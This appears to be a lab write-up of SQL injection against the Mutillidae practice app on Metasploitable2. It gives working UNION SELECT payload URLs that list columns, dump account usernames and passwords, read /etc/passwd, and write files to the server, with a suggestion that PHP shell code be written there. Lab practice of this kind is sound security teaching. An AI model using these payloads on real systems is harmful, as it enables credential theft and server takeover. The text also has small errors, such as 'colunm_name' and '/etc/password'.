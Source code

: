 

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/durga46/sqlinjection/assets/75235704/1adca033-4a90-4972-ac2b-898c8559a8cb)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/durga46/sqlinjection/assets/75235704/f9ba9c86-4834-4b04-921d-838addad926e)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/durga46/sqlinjection/assets/75235704/c9ae1133-6c7d-400d-8260-0bc1ed978577)


Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 
![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/durga46/sqlinjection/assets/75235704/814f7973-1f46-48eb-8fd7-48687e5846e9)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
